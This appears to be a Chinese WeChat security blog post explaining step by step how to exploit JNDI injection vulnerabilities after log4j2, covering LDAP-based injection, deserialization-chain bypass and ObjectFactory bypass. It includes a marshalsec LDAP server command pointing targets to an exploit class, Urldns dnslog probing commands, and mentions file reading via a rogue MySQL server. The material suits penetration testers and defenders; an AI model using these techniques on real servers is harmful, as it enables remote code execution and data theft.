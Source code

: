 #  到底如何利用JNDI？

原创 珂字辈  [ 珂技知识分享 ](javascript:void\(0\);)

**珂技知识分享** ![]()

微信号 kezibei001

功能介绍 分享自己的安全技术，渗透实例，IT知识，拒绝转载，坚持原创。

____

___发表于_

收录于合集

在log4j2漏洞之后很多人常常可以借助扫描器发现JNDI漏洞，却对利用JNDI感到很棘手，这篇文章就从实际出发，尽量少的讲原理，一步一步教你如何利用JNDI漏洞。

  

首先，JNDI分两种协议，一种rmi，一种ldap，在绝大部分情况下，ldap可以完美覆盖rmi，因此你可以无视rmi直接用ldap。

使用ldap，也分三种情况。

一种是jndi注入，需要被攻击者A，访问VPS上的ldap服务，然后ldap服务要求被攻击者A访问并加载一个http服务上的class。这种情况受着JDK版本限制(最低JDK11.0.1/8u191/7u201/6u211)

一种是ldap反序列化，需要被攻击者A，访问VPS上的ldap服务，然后ldap服务传输序列化payload，要求被攻击者A去进行反序列化。这种情况需要反序列化链。

一种是ldap工厂类绕过，和反序列化过程几乎一样，不同的是反序列化链换成了ObjectFactory链。

  

我们在测试JNDI漏洞时， **第一要求就是ldap协议出网**
，ldap协议不出网是绝对无法完成漏洞利用的。对log4j2来说，不出网还可以用dnslog带出敏感信息，对fastjson来说，也有不出网的利用方法，但对JNDI的利用来说，必须得出网。  

判断是否出网很简单，用rmi协议会非常直观(当然ldap也可以)，比如我在本地上搭了个log4j2漏洞环境。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135906.png)

 **  
**

 **一、JNDI注入**  

确定出网后，就可以尝试JNDI注入。如果我们能获取对方的JDK版本，直接对比就行了，比如log4j2就可以利用dnslog或者ldap来获取JDK版本。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135908.png)

如果不能，就要盲打，可以用任意一个JNDI工具尝试盲打，比如marshalsec。

  * 

    
    
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:5667/#Exploit" 1389

然后监听5667，如果收到http请求证明可以JNDI注入。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135909.png)

再深入利用就是将5667端口上的class换成命令执行或者内存马的恶意类。因为需要临时制作恶意类，还需要开ldap和http两个端口，比较麻烦，所以现在很多JNDI工具都集成了JNDI注入功能，大家自己搜。

https://github.com/search?q=jndi

  

 **二、反序列化绕过**

但是绝大部分时候都是高版本JDK，我们只能寻求绕过方法。第一种是反序列化绕过，要求对方有反序列化链。

这种情况就只需要一个ldap服务，上述的JNDI工具也集成了此功能，但是对于反序列化链的寻找，就需要用到Urldns进行探测。

https://github.com/kezibei/Urldns

我们需要找到一个可以显示很多条dnslog的网站。

https://dig.pm/

  * 

    
    
    java -jar Urldns.jar ldap all xxx.dnslog.cn

发起jndi攻击，效果如下

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135910.png)

68多条，很多重复的，在web中显示不全，在burp中查看所有记录。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135911.png)

如果自建dnslog平台可以写个小脚本提取一下，我这里就手工提取比较重要的信息。

  *   *   *   *   *   *   *   *   *   * 

    
    
    cc31or321.c2424831.logplog.eu.orgcb19x.c2424831.logplog.eu.orgjavax_el_ELProcessor.c2424831.logplog.eu.orgcc322.c2424831.logplog.eu.orgorg_yaml_snakeyaml_Yaml.c2424831.logplog.eu.orgbecl.c2424831.logplog.eu.orgwindows.c2424831.logplog.eu.orgcom_mysql_jdbc_Driver.c2424831.logplog.eu.orgcom_zaxxer_hikari_HikariJNDIFactory.c2424831.logplog.eu.orgorg_apache_naming_factory_BeanFactory.c2424831.logplog.eu.org

只关注反序列化链，有cb19x，有cc31or321和cc322，高版本覆盖低版本，因此cc322没有反序列化链漏洞，能利用的唯一链就是cb19x。

那么就需要用JNDI工具进行JNDI bypass，我自己写了一个，大家用网上的就行。注意commons-beanutils版本依赖。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135912.png)

  

 **三、ObjectFactory绕过**

和反序列化绕过类似，只要被攻击者有对应的依赖就行，长期以来一直用的是javax.el.ELProcessor和org.apache.naming.factory.BeanFactory组合。但浅蓝挖掘了更多的可能性。

http://www.b1ue.cn/archives/529.html

我们用Urldns探测之后发现也发现了ELProcessor和BeanFactory，那么可以如图。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135914.png)

还可以发现HikariJNDIFactory和mysql的组合，mysql
jdbc可以反序列化(无意义)和任意文件读取。如下图，利用jndi工具和rogue_mysql_server.py实现任意文件读取。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923135915.png)

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

